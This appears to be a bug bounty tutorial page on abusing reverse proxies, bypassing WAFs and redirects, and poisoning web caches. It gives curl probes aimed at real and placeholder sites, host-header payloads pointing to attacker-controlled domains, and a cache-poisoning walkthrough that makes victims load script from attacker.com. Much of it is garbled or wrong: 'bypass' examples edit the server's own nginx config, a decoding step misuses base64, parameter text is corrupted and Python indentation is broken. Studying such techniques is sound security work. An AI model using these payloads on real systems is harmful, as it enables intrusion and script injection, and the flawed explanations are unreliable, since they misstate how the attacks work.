

# Vulnerability Identification

* Abusing Reverse Proxies
* Cache Vulnerabilities
* Cross-Site Request Forgery
* Cross-Site Scripting
* Ephemeral Vulnerabilities
* HTTP Request Smuggling
* Injection SQL RCE
* Insecure Indirect Object Reference (IDOR)
* Mass Assignment
* Race Condition
* Same Pattern Vulnerability
* SSRF Discovery and Post Exploitation


### <mark style="color:red;">Abusing Reverse Proxies</mark>

Abusing reverse proxies for bug bounty is a technique used by bug bounty hunters to exploit vulnerabilities in web applications or systems that rely on reverse proxies. When a reverse proxy is used, the client requests the proxy server, which then forwards the request to the appropriate backend server. If the proxy server is misconfigured or has vulnerabilities, an attacker can potentially exploit these to gain unauthorized access to the internal network or steal sensitive information.

Here are some important signs to look for when abusing reverse proxies for bug bounty:

1. **Incorrect or missing security headers**: Proxies should include security headers like X-Frame-Options, Content-Security-Policy, and Strict-Transport-Security to prevent clickjacking, cross-site scripting (XSS), and other attacks. If these headers are missing or misconfigured, this can be a sign that the proxy is vulnerable.
2. **Proxy server error messages**: If the proxy server returns error messages that reveal internal server details, this can hint at a misconfiguration or vulnerability.
3. **Proxy server behavior**: The proxy server should handle requests consistently and expectedly. If the server behaves differently or returns unexpected responses, this may indicate a misconfiguration or vulnerability.
4. **Proxy server logs**: Proxy servers often log requests and errors. If the logs reveal unusual activity or patterns, this could indicate a potential vulnerability.
5. **Proxy configuration files**: Proxy configuration files (e.g., nginx.conf, haproxy.cfg) should be kept up-to-date and secure. If they contain hardcoded credentials or other sensitive information, this could be a vulnerability.
6. **Proxy server plugins/extensions**: Some proxy servers have plugins or extensions that can be used to customize behavior. If these plugins are not properly secured or updated, they can be potential vulnerabilities.

To exploit these vulnerabilities, bug bounty hunters would typically use tools like Burp Suite or OWASP ZAP to intercept and manipulate requests to the proxy server. They would then attempt to inject malicious payloads, bypass authentication, or exploit other vulnerabilities to gain unauthorized access to internal systems or sensitive data.


Modern web applications use micro web services which have various architectures, The overview of an implementation:

<figure><figcaption></figcaption></figure>


The flow of most common situations:

* a front server which is a reverse proxy or dispatcher
* a back-end server that serves the requests

You should find a way to trick the front server into passing a forbidden request to the backend, this is called a flaw or vulnerability.

<figure><figcaption></figcaption></figure>

1. The client requests the reverse proxy server.
2. The reverse proxy server receives the request and forwards it to the appropriate back-end server.
3. The back-end server processes the request and generates a response.
4. The back-end server sends the response back to the reverse proxy server.
5. The reverse proxy server forwards the response back to the client.

This flow represents how a client interacts with a reverse proxy server to access the back-end servers. In bug bounty scenarios, an attacker can exploit various vulnerabilities in the reverse proxy server to gain unauthorized access to the internal network or steal sensitive information.

For example, if the reverse proxy server is misconfigured and allows requests from unauthorized clients, an attacker can potentially bypass security controls and access sensitive resources. Similarly, if the proxy server is vulnerable to cross-site scripting (XSS) or other web application vulnerabilities, an attacker can manipulate the proxy server's responses to perform attacks on the client.

To exploit these vulnerabilities, bug bounty hunters would typically use tools like Burp Suite or OWASP ZAP to intercept and manipulate requests to the proxy server. They would attempt to inject malicious payloads, bypass authentication, or exploit other vulnerabilities to gain unauthorized access to internal systems or sensitive data.


To trick the front server to pass a forbidden request to the backend server, there are several methods that an attacker can use:

1. **Manipulating Headers**:
   * An attacker can manipulate request headers to bypass security controls implemented at the reverse proxy server.
   * For example, by modifying the `Host` header to target a different backend server.
   * For example, Modifying the `Host` header in a request to `example.com` as `Host: admin.example.com` could trick the reverse proxy into forwarding the request to the admin panel at `admin.example.com`.
2. **Manipulating URL Parameters**:
   * The attacker can manipulate URL parameters to change the destination of the request.
   * For example, by appending a parameter like `/admin` to target an admin panel.
   * For example, If the original URL is `https://example.com/account`, an attacker might append a parameter like `/admin` to make it `https://example.com/account/admin` in an attempt to access the admin panel.
3. **Manipulating Request Methods**:
   * The attacker can manipulate the request method (e.g., `GET`, `POST`, `PUT`) to perform unauthorized actions.
   * For example, by using `PUT` to update sensitive data.
   * For example, An attacker might send a `PUT` request to update the password for a user account by using the `PUT /users/1 HTTP/1.1` request method instead of `GET` or `POST`, bypassing any restrictions that may be in place for those methods.
4. **Manipulating Request Body**:
   * The attacker can manipulate the request body to include malicious payloads or exploit deserialization vulnerabilities.
   * For example, by injecting a serialized object that can be deserialized on the backend server.
   * For example, Injecting a serialized object, such as `{"user_id": 1, "is_admin": true}`, into the request body can lead to privilege escalation if the backend server deserializes the object without proper validation.
5. **Bypassing Authentication**:
   * If the reverse proxy server requires authentication, an attacker can attempt to bypass the authentication mechanism.
   * This can be done by modifying the authentication token, using default credentials, or exploiting flaws in the authentication process.
   * For example, Modifying the `Authorization` header in a request to use a default or leaked token (e.g., `Authorization: Bearer leaked_token`) could bypass the authentication process.
6. **Exploiting Proxy Server Vulnerabilities**:
   * The attacker can exploit vulnerabilities in the proxy server itself, such as cross-site scripting (XSS), command injection, or path traversal.
   * These vulnerabilities can be used to manipulate the proxy server's behavior and gain unauthorized access to the internal network.
   * For example, If the reverse proxy server is vulnerable to cross-site scripting (XSS), an attacker could inject a malicious script into the request headers or parameters (e.g., `Referer:<script>malicious_code</script>`), causing the server to execute the script and potentially compromise the internal network.


### Configurations

Let's break down the configuration and behavior of the Nginx reverse proxy:

1. **Configuration 1**:
   * The first location block matches all requests starting with `/`.
   * It sets headers using `proxy_set_header`, and passes the request to the backend server.
   * The `location /admin` block is configured to deny all requests to the `/admin` path.
   * The tests demonstrate that the front server can be tricked into accessing the `/admin` path if the `return 404;` line is commented out.
2. **Configuration 2**:
   * There are three location blocks, each with a different path prefix: `/api/v0/`, `/api/v1/`, and `/api/v2/`.
   * The `rewrite` directive is used to modify the requested URI before passing it to the backend server.
   * The `$request_uri` variable is used in the `/api/v1/` location block, while `$uri` is used in the `/api/v0/` location block.
   * The `~` modifier is used in the `/api/v2/` location block to perform a case-sensitive regular expression match.
   * The tests show that the front server can be tricked into accessing different paths on the backend server by manipulating the requested URI.
3. **Nginx Behavior**:
   * Nginx applies URL decode and normalizes the URI before matching the location blocks.
   * The `$uri` variable represents the normalized URI, and its value may change during request processing.
   * The `$request_uri` variable represents the original, unmodified URI.


**Configuration 1**

```nginx
# Original Request: GET /admin
location / {
    proxy_set_header Host $host;
    proxy_pass http://backend_server;
}

# Bypass Attempt: Comment out the following line
# location /admin {
#     return 404;
# }

```

**Configuration 2**

```nginx
# Original Request for /api/v1/: GET /api/v1/resource
location /api/v1/ {
    rewrite /api/v1/(.*) /$1 break;
    proxy_set_header Host $host;
    proxy_pass http://backend_server$request_uri;
}

# Bypass Attempt
location /api/v0/ {
    rewrite /api/v0/(.*) /$1 break;
    proxy_set_header Host $host;
    proxy_pass http://backend_server$uri;
}

```

```nginx
# Original Request for /api/v2/: GET /api/v2/resource
location ~ /api/v2/ {
    proxy_set_header Host $host;
    proxy_pass http://backend_server;
}

# Bypass Attempt: Using a case-sensitive regex match (e.g., /API/v2/resource)

```

**Nginx Behavior**

```nginx
# URL Decode: Original request: /api%2fv1%2fresource
# Nginx decodes it to /api/v1/resource

# URI Normalization: Original request: /api/./v1/resource
# Nginx normalizes it to /api/v1/resource

# $uri vs. $request_uri:
# $uri will be /api/v1/resource, while $request_uri will be /api/./v1/resource

```


### Situations

Let's review some situations that can occur when abusing reverse proxies:

1. **Front path → backend path**:
   * In this situation, the front server maps a specific path on the proxy server to a different path on the backend server.
   * For example, the request `/users/test` is mapped to `/api/get_user/test` on the backend server.
   * An attacker can manipulate the front path to access sensitive resources or perform unauthorized actions on the backend server.
2. **Front path → backend query string (beginning, middle, or last)**:
   * In this situation, the front server appends parameters to the backend server's query string.
   * For example, the request `/users/test` is mapped to `/api/get_user?**username=test**&param=value` or `/api/get_user?param=value&**username=test**&param=value` or `/api/get_user?param=value&**username=test**` on the backend server.
   * An attacker can manipulate the front path to inject parameters into the backend server's query string, which can be used to bypass security controls or perform unauthorized actions.
3. **Front parameter → backend path**:
   * In this situation, the front server includes a parameter in the request and maps it to a specific path on the backend server.
   * For example, the request `/users/test` with a parameter `id=123` is mapped to `/api/get_user/test/123` on the backend server.
   * An attacker can manipulate the front parameter to access sensitive resources or perform unauthorized actions on the backend server.
4. **Front parameter → backend query string (beginning, middle or last)**:
   * Similar to the previous situation, the front server includes a parameter in the request and appends it to the backend server's query string.
   * For example, the request `/users/test` with a parameter `id=123` is mapped to `/api/get_user?**id=123**&param=value` or `/api/get_user?param=value&**id=123**&param=value` or `/api/get_user?param=value&**id=123**` on the backend server.
   * An attacker can manipulate the front parameter to inject parameters into the backend server's query string, which can be used to bypass security controls or perform unauthorized actions.
5. **Front host → HTTP request**:
   * In this situation, the front server includes a host header in the request and maps it to a specific backend server.
   * For example, the request with a host header `example.com` is mapped to `http://backend.example.com/api/get_user` on the backend server.
   * An attacker can manipulate the host header to access different backend servers or perform unauthorized actions.


**Front path → backend path**

```nginx
# Original configuration
location /users/ {
    proxy_set_header Host $host;
    proxy_pass http://backend_server/api/get_user/;
}

# Bypass attempt
location /users/../admin/ {
    proxy_set_header Host $host;
    proxy_pass http://backend_server/api/admin/;
}

```

**Front path → backend query string**

```nginx
# Original configuration
location /users/ {
    proxy_set_header Host $host;
    proxy_pass http://backend_server/api/get_user?username=$uri¶m=value;
}

# Bypass attempt (beginning)
location /users/../admin/ {
    proxy_set_header Host $host;
    proxy_pass http://backend_server/api/admin?username=$uri¶m=value;
}

# Bypass attempt (middle)
location /users/../admin/ {
    proxy_set_header Host $host;
    proxy_pass http://backend_server/api/admin?param=value&username=$uri¶m=value;
}

# Bypass attempt (last)
location /users/../admin/ {
    proxy_set_header Host $host;
    proxy_pass http://backend_server/api/admin?param=value¶m=value&username=$uri;
}

```

**Front parameter → backend path**

```nginx
# Original configuration
location /users/ {
    proxy_set_header Host $host;
    proxy_pass http://backend_server/api/get_user/$arg_id/;
}

# Bypass attempt
location /users/ {
    proxy_set_header Host $host;
    proxy_pass http://backend_server/api/admin/$arg_id/;
}

```

**Front parameter → backend query string**

```nginx
# Original configuration
location /users/ {
    proxy_set_header Host $host;
    proxy_pass http://backend_server/api/get_user?id=$arg_id¶m=value;
}

# Bypass attempt (beginning)
location /users/ {
    proxy_set_header Host $host;
    proxy_pass http://backend_server/api/admin?id=$arg_id¶m=value;
}

# Bypass attempt (middle)
location /users/ {
    proxy_set_header Host $host;
    proxy_pass http://backend_server/api/admin?param=value&id=$arg_id¶m=value;
}

# Bypass attempt (last)
location /users/ {
    proxy_set_header Host $host;
    proxy_pass http://backend_server/api/admin?param=value¶m=value&id=$arg_id;
}

```

**Front host → HTTP request**

```nginx
# Original configuration
server {
    listen 80;
    server_name example.com;
    location / {
        proxy_pass http://backend_server/api/get_user;
    }
}

# Bypass attempt
server {
    listen 80;
    server_name admin.example.com;
    location / {
        proxy_pass http://backend_server/api/admin;
    }
}

```


### Misconfigurations

Let's review some Nginx misconfigurations and their impact on reverse proxy attacks:

1. **Misconfiguration 1**:
   * The first location block maps the `/get_files` path to the backend server's `/files/` path.
   * The `access_log` directive is used to log requests to the `/get_files` path.
   * The tests demonstrate that the front server can be tricked to access the `/nginx_status` path if the `deny all;` line is commented out.
2. **Misconfiguration 2**:
   * The second location block denies all requests to the `/nginx_status` path.
   * However, the attacker can still access the `/nginx_status` path by manipulating the requested URI.
   * The tests show that the front server can be tricked to access the `/nginx_status` path by appending `../` to the requested URI.


**Misconfiguration 1**

```nginx
# Original configuration
location /get_files {
    proxy_pass http://backend_server/files/;
    access_log /var/log/nginx/access_log;
}

# Bypass attempt
location /get_files/../nginx_status {
    proxy_pass http://backend_server/nginx_status;
    # Commenting out the following line allows access to the /nginx_status path
    # deny all;
}

```

**Misconfiguration 2**

```nginx
# Original configuration
location /nginx_status {
    proxy_pass http://backend_server/nginx_status;
    deny all;
}

# Bypass attempt
location /get_files/../nginx_status {
    proxy_pass http://backend_server/nginx_status;
}

```


### Reverse Proxies identification

There is not a general way, however, some characters are useful to change the behavior of web applications.

* Check if `/api/.%2f1` returns as `/api/1`
* Check if `/api/1%26` returns as `/api/1`
* Check if `/api/1%23` returns as `/api/1` or an error
* Check if `/api/../` returns result as `/`
* Check if `/api/..%2f` returns result as `/`
* Check if `/api/..%252f` returns result as `/`
* Check the endpoint in this way `/api/group/users` → `/api/group/users/..%2f..%2f..%2f`
* Check the endpoint in this way `/api/group/users` → `/api/group/users/../../../`
* Check behavior of `/file.ext/..%2f`
*   Some fuzzing characters:

    ```
    %23 (#)
    %3f (?)
    %26 (&)
    %2e (.)
    %2f (/)
    %40 (@)
    ```
* Vulnerable reverse proxies

```
GET /?qrt=xyz HTTP/1.1
host: attacker-controlled.com
```

* Find forbidden IP and change the host of IP lists:

```
GET /?qrt=xyz HTTP/1.1
host: IP:PORT
```

* Some tricks

```
GET @attacker-controlled.com/ HTTP/1.1
host: host.com
```

* Payload:

```
GET test.attacker-controlled.com:80/ HTTP/1.1
host: host.com
```

* All headers

```
GET /?a=a.att.com&a=a.att.com
Host: www.facebook.com
X-WAP-Profile: http://b.att.com
Referrer: http://c.att.com
X-Forwarded-For: d.att.com
True-Client-IP: e.att.c
X-Real-IP: f.att.com
connection: close
```


**Reverse Proxies Identification**

```bash
# Check if /api/.%2f1 returns as /api/1
curl -s 'http://target.com/api/.%2f1' | grep '/api/1'
# Check if /api/1%26 returns as /api/1
curl -s 'http://target.com/api/1%26' | grep '/api/1'
# Check if /api/1%23 returns as /api/1 or an error
curl -s 'http://target.com/api/1%23'
# Check if /api/../ returns result as /
curl -s 'http://target.com/api/../' | grep '/'
# Check if /api/..%2f returns result as /
curl -s 'http://target.com/api/..%2f' | grep '/'
# Check if /api/..%252f returns result as /
curl -s 'http://target.com/api/..%252f' | grep '/'
# Check endpoint in this way /api/group/users → /api/group/users/..%2f..%2f..%2f
curl -s 'http://target.com/api/group/users/..%2f..%2f..%2f' | grep '/'
# Check endpoint in this way /api/group/users → /api/group/users/../../../
curl -s 'http://target.com/api/group/users/../../../' | grep '/'
# Check the behavior of /file.ext/..%2f
curl -s 'http://target.com/file.ext/..%2f'
```

**Vulnerable Reverse Proxies**

```bash
# Change the host of IP lists
curl -s 'http://target.com/?qrt=xyz' -H 'host: IP:PORT'
```

**Tricks**

```bash
# Send request using @attacker-controlled.com
curl -s 'http://host.com' -H 'GET @attacker-controlled.com/ HTTP/1.1'
```

**Payload**

```bash
# Payload example
curl -s 'http://host.com' -H 'GET test.attacker-controlled.com:80/ HTTP/1.1'
```

**All Headers**

```bash
# Example with multiple headers
curl -s 'http://www.facebook.com/?a=a.att.com&a=a.att.com' \
    -H 'host: www.facebook.com' \
    -H 'X-WAP-Profile: http://b.att.com' \
    -H 'Referrer: http://c.att.com' \
    -H 'X-Forwarded-For: d.att.com' \
    -H 'True-Client-IP: e.att.c' \
    -H 'X-Real-IP: f.att.com' \
    -H 'Connection: close'
```


### WAF Bypass

Let's review how a WAF (Web Application Firewall) can be bypassed when abusing reverse proxies:

1. **Bypassing WAF by Manipulating URL**:
   * The WAF is typically a reverse proxy that protects a web application or API endpoint.
   * An attacker can manipulate the URL to bypass the WAF's protection.
   * Common techniques include:
     * URL Encoding: Encoding certain characters, such as `/`, `%2f`, or `%252f`, can be used to bypass the WAF.
     * URL Decoding: Decoding characters can also be used to bypass the WAF.
     * Character Swapping: Swapping certain characters, such as `.` and `%2e`, can be used to bypass the WAF.
     * Double Encoding: Encoding the same character multiple times can also be used to bypass the WAF.
     * Null Byte Injection: Injecting null bytes (`%00`) can be used to terminate strings or bypass filters.
2. **Bypassing WAF by Manipulating Headers**:
   * The WAF can also be bypassed by manipulating the request headers.
   * Common header manipulations include:
     * Modifying the `Host` header to target a different endpoint.
     * Modifying the `User-Agent` header to match the WAF's whitelist.
     * Modifying the `X-Forwarded-For` header to spoof the source IP address.
     * Modifying the `X-Real-IP` header to spoof the source IP address.
3. **Bypassing WAF by Manipulating Request Body**:
   * The WAF can be bypassed by manipulating the request body.
   * Common techniques include:
     * Injecting malicious payloads, such as SQL injection or XSS, into the request body.
     * Modifying the request body to bypass input validation.
     * Manipulating serialized objects to bypass deserialization vulnerabilities.


**Bypassing WAF by Manipulating URL**

```bash
# URL encoding
curl -s 'http://target.com/api%2fusers'
# URL decoding
curl -s 'http://target.com/api%2fusers' | base64 --decode

# Character swapping
curl -s 'http://target.com/api.users'
# Double encoding
curl -s 'http://target.com/api%252fusers'
# Null byte injection
curl -s 'http://target.com/api/users%00'
```

**Bypassing WAF by Manipulating Headers**

```bash
# Modifying the Host header
curl -s 'http://target.com/api' -H 'Host: different-endpoint.com'
# Modifying the User-Agent header
curl -s 'http://target.com/api' -H 'User-Agent: whitelisted-user-agent'
# Modifying the X-Forwarded-For header
curl -s 'http://target.com/api' -H 'X-Forwarded-For: 127.0.0.1'
# Modifying the X-Real-IP header
curl -s 'http://target.com/api' -H 'X-Real-IP: 127.0.0.1'
```

**Bypassing WAF by Manipulating Request Body**

```bash
# Injecting malicious payloads
curl -s -d "payload=malicious_payload" 'http://target.com/api/'
# Modifying the request body to bypass input validation
curl -s -d "input=bypassed_input" 'http://target.com/api/'
# Manipulating serialized objects
curl -s -d "object=malicious_object" 'http://target.com/api/'
```


### Redirect

Sometimes 301 redirects are handled by `mode_rewrite`

```
RewriteRule ^/somepath(.*) /otherpath$1 [R]
```

Example:

```
https://secalert-hackerone.slack.com/server-status -> 301
```

Different Bypasses + ([RTLO](https://charbase.com/202e-unicode-right-to-left-override)):

```
https://secalert-hackerone.slack.com/**////**server-status
https://secalert-hackerone.slack.com/**%2f**server-status**%2f**
https://secalert-hackerone.slack.com/**%e2%80%ae**sutats-revres
```

Abusing Reverse Proxies refers to exploiting vulnerabilities in reverse proxy servers, which are used to forward requests to backend servers. Reverse proxies can be misconfigured or vulnerable to attacks that can allow an attacker to bypass security controls or gain unauthorized access to resources.

In the context of 301 redirects, when a reverse proxy is configured to handle 301 redirects using `mode_rewrite`, it can be abused to perform various attacks. Here's an example of how this configuration can be exploited:

```
RewriteRule ^/somepath(.*) /otherpath$1 [R]
```

In this configuration, any request that matches the pattern `/somepath` will be redirected to `/otherpath`. However, different bypasses can be used to manipulate the URL and trick the reverse proxy into redirecting to a different path.

One such bypass is by using double slashes (`//`) in the URL, which can be used to remove portions of the path. For example:

```
https://secalert-hackerone.slack.com/**////**server-status
```

This URL will be redirected to:

```
https://secalert-hackerone.slack.com/server-status
```

Another bypass is by using URL-encoded slashes (`%2f`) to represent slashes in the URL. For example:

```
https://secalert-hackerone.slack.com/**%2f**server-status**%2f**
```

This URL will also be redirected to:

```
https://secalert-hackerone.slack.com/server-status
```

Another bypass is by using Right-to-Left Override (RTLO) Unicode characters to manipulate the URL. RTLO characters can be used to change the direction of text rendering, allowing attackers to bypass filters by exploiting Unicode normalization. For example:

```
https://secalert-hackerone.slack.com/**%e2%80%ae**sutats-revres
```

This URL will be rendered as:

```
https://secalert-hackerone.slack.com/server-status
```


### Some Questions

**Is there any reverse proxy here? How can we test it?**

You can identify a reverse proxy by checking the server response headers. If you see headers such as X-Forwarded-For, X-Forwarded-Host, or X-Forwarded-Proto, a reverse proxy is likely in use.

_Example using cURL_

```bash
curl -I https://example.com | grep -i 'x-forwarded'
```

**What’s parsed by the front, What’s sent to the backend?**

The front-end server typically parses the client's request before forwarding it to the back-end server. It can modify or add request headers, and sometimes the path and query parameters as well. The backend server processes the forwarded request and generates a response.

_Example using nginx_

```nginx
location / {
    # Modifying request headers
    proxy_set_header X-Real-IP $remote_addr;
    proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    # Modifying request path
    proxy_pass http://backend_server/path/;
}
```

**What configuration is made? path → path or path → query string?**

A reverse proxy configuration can involve mapping a path on the front-end server to a path on the back-end server or mapping a path to a query string parameter.

_Example using Apache with mod\_proxy_

```apacheconf
# Mapping path to path
ProxyPass /get_files/ http://backend_server/files/
ProxyPassReverse /get_files/ http://backend_server/files/

# Mapping path to query string
RewriteEngine On
RewriteRule ^/get_files/(.*)$ http://backend_server/?file_path=$1 [P]
```

**Is there an extra header or parameter between the front and backend servers?**

Extra headers or parameters can be added to the request between the front-end and back-end servers to provide additional context or information about the original request.

_Example using nginx_

```nginx
location / {
    proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    proxy_set_header X-Forwarded-Proto $scheme;
    proxy_pass http://backend_server;
}
```

**Are there any tools to help find Reverse Proxies bugs and vulnerabilities?**

There are various tools to help identify reverse proxy misconfigurations and vulnerabilities:

1. Burp Suite
2. nmap
3. wafw00f
4. Dirbuster


### <mark style="color:red;">Cache Vulnerabilities</mark>

Cache vulnerabilities are a type of vulnerability in web applications that exploit the browser's caching mechanism. When a web application caches sensitive data or server responses, an attacker can potentially exploit this vulnerability to gain unauthorized access to that data.

Here's an example of how cache vulnerabilities can occur:

1. A web application caches sensitive user data, such as account balances or personal information, on the server side.
2. The application sends this cached data to the client without proper authentication or authorization checks.
3. An attacker can exploit this cached data by manipulating the client's browser to send requests to the application server.
4. The server responds with the cached sensitive data to the client, which the attacker can then use to gain unauthorized access to that user's account.

Here's an example of how to implement cache control headers in an Express.js application:

```javascript
const express = require('express');
const app = express();

// Set the Cache-Control header to prevent caching of sensitive data
app.use((req, res, next) => {
  res.set('Cache-Control', 'no-store');
  next();
});

// Route handling sensitive data
app.get('/sensitive-data', (req, res) => {
  // Check if the user is authenticated and authorized
  if (!isAuthenticated(req) || !isAuthorized(req)) {
    return res.status(401).send('Unauthorized');
  }

  // Retrieve sensitive data
  const sensitiveData = retrieveSensitiveData();

  // Send the sensitive data to the client
  res.send(sensitiveData);
});

// Start the server
app.listen(3000, () => {
  console.log('Server is running on port 3000');
});
```

In this example, the `Cache-Control` header is set to `no-store` to prevent caching of sensitive data on the client side. The server also checks if the user is authenticated and authorized before sending the sensitive data. This ensures that only authenticated and authorized users can access the sensitive data.


Here are some key concepts to understand about cache vulnerabilities:

1. **Caching Mechanism**: Understanding how cache memory works and its role in improving system performance is essential. Cache memory stores frequently accessed data for fast retrieval, reducing the need for slower data fetching from primary storage devices.
2. **Side-Channel Attacks**: Side-channel attacks exploit the physical properties of a system to extract sensitive information. Cache-based side-channel attacks, such as cache timing attacks, monitor cache activity to infer information about other processes sharing the cache.
3. **Cache Poisoning and Cache-based Injection Attacks**: Cache poisoning involves manipulating the cache contents to cause the system to respond with malicious data instead of legitimate data. Cache-based injection attacks exploit cache vulnerabilities to inject malicious code or commands into a system.
4. **Insecure Cache Sharing**: When multiple users or processes share the same cache, sensitive information may be exposed to unauthorized parties if proper isolation mechanisms are not in place. This can lead to data leakage and other security issues.
5. **Cache Eviction Policies**: The choice of cache eviction policy can affect the security of the system. For example, a poor eviction policy may lead to the eviction of sensitive data, making it easier for an attacker to access it.
6. **Encryption and Data Protection**: Sensitive data stored in the cache should be encrypted and protected with strong access controls to prevent unauthorized access. Failure to do so can lead to data breaches and compromise of sensitive information.
7. **Secure Cache Management**: Ensuring that cache management functions, such as updating and invalidating cache contents, are performed securely is crucial to avoid introducing vulnerabilities that attackers can exploit.


Here's how cache vulnerabilities can occur:

1. **Cache Server Decision:**
   * Cache servers, such as CDNs and reverse proxies, store responses based on the request URL, method, and headers.
   * When a client sends a request, the cache server checks if it has a cached response for that specific request.
   * If it finds a cached response, it sends the cached response back to the client without sending the request to the backend server.
   * If the cache server does not find a cached response, it sends the request to the backend server, caches the response, and then sends the response back to the client.
2. **Unkeyed Input in Cookies:**
   * In the provided request example, the `lang=de` cookie is an unkeyed input because it is not part of the request URL or headers.
   * If the cache server caches the response based on the request URL and method, it will consider the `lang=de` cookie as a different request and store a separate cached response for each language.
   * This means that other users who have different language preferences will see the news in German, even if they have not explicitly requested it.
3. **Cache Server Headers:**
   * The cache server uses headers to communicate with the client and the backend server.
   * If a response is cached, the cache server includes a `hit` header in the response, indicating that the response was served from the cache.
   * If a response is not cached, the cache server includes a `miss` header in the response, indicating that the response was fetched from the backend server.
   * The `vary` header can be used to instruct the cache server to key additional request headers or query parameters, but many CDNs and cache servers deny this header.
4. **Disabling Cache Server Storage:**
   * Some headers, such as `no-cache`, `max-age=0`, `private`, and `no-store`, can be used to prevent caching of responses.
   * When these headers are present in a response, the cache server will not store the response and will always send the request to the backend server.
5. **Bug Bounty Hunter's Notices:**
   * Bug bounty hunters should notice if the application is using unkeyed input in cookies or headers that can disable the cache server's storage.
   * They should also check for the presence of `hit` and `miss` headers to determine if the cache server is working as expected.
   * If the cache server is not properly configured or if the application is caching sensitive data without proper authentication and authorization, this could indicate a cache vulnerability.


**Cache Server Decision**

```python
# Assume the cache server has a dictionary to store cached responses
cache = {("example.com", "GET", "/news"): "Cached response in English"}

def handle_request(url, method, headers):
    # Check if the request is in the cache
cache_key = (url, method, headers)
    if cache_key in cache:
        # If found, send the cached response
return cache[cache_key]
    else:
        # If not found, send the request to the backend server, store the response in the cache, and return the response
response = fetch_from_backend(url, method, headers)
        cache[cache_key] = response
        return response

```

**Unkeyed Input in Cookies**

```python
def handle_request(url, method, headers, cookies):
    # Assume the same cache server as the previous example
# The cache key does not include the cookies
cache_key = (url, method, headers)

    # Check if the request is in the cache
if cache_key in cache:
        # If found, send the cached response, which may not match the user's language preference
return cache[cache_key]
    else:
        # If not found, send the request to the backend server, store the response in the cache, and return the response
response = fetch_from_backend(url, method, headers, cookies)
        cache[cache_key] = response
        return response

```

**Cache Server Headers**

```python
def handle_request(url, method, headers):
    # Assume the same cache server as the previous examples
# Check if the request is in the cache
cache_key = (url, method, headers)
    if cache_key in cache:
        # If found, send the cached response with the hit header
response = cache[cache_key]
        response["headers"]["hit"] = "true"
return response
    else:
        # If not found, send the request to the backend server, store the response in the cache, and return the response with the miss header
response = fetch_from_backend(url, method, headers)
        response["headers"]["miss"] = "true"
cache[cache_key] = response
        return response

```

**Disabling Cache Server Storage**

```python
def handle_request(url, method, headers):
    # Assume the same cache server as the previous examples
# Check for headers that prevent caching
if "no-cache" in headers or "max-age=0" in headers or "private" in headers or "no-store" in headers:
        # If found, do not store the response in the cache
return fetch_from_backend(url, method, headers)
    else:
        # If not found, check if the request is in the cache
cache_key = (url, method, headers)
        if cache_key in cache:
            # If found, send the cached response
return cache[cache_key]
        else:
            # If not found, send the request to the backend server, store the response in the cache, and return the response
response = fetch_from_backend(url, method, headers)
```


### Sample scenario

```html
GET **/news/show.php?id=1** HTTP/1.1
Host: **example.com**
Connection: close

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
**Cache-Control: max-age=3000
Age: 0
X-Cache: miss**
Connection: close
Content-Length: 10941

...
<script src='//site.com/static/js/news.js'></script>
...
```

Attack

```html
GET **/news/show.php?id=2** HTTP/1.1
Host: **example.com
X-Forwarded-Host: attacker.com**
Connection: close

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
**Cache-Control: max-age=3000
Age: 0
X-Cache: miss**
Connection: close
Content-Length: 10941

...
<script src='//**attacker.com**/static/js/news.js'></script>
...
```

Victim

```html
GET **/news/show.php?id=2** HTTP/1.1
Host: **example.com**
Connection: close

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
**Cache-Control: max-age=3000
Age: 157
X-Cache: hit**
Connection: close
Content-Length: 10941

...
<script src='//**attacker.com**/static/js/news.js'></script>
...
```

In this scenario, we have an application running behind a cache server. The application serves a news article based on the `id` parameter, as seen in the URL `/news/show.php?id=1`.

The attacker's goal is to poison the cache server to serve malicious content to other users when they request the same article (in this case, with `id=2`). They achieve this by manipulating an unkeyed input, which in this example is the `X-Forwarded-Host header`.

**Step 1**: Identify if the application uses a cache server or not, The response headers indicate that the application uses a cache server:

```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: max-age=3000
Age: 0
X-Cache: miss
Connection: close
Content-Length: 10941

```

Here, the `Cache-Control`, `Age`, and `X-Cache` headers suggest the presence of a cache server.

**Step 2**: Scan various requests using Param Miner and identify an unkeyed input

The attacker uses the Param Miner extension in Burp Suite to brute-force various headers, cookies, and parameters, looking for an unkeyed input. The `X-Forwarded-Host` header is identified as an unkeyed input that can be manipulated to change the application's behavior.

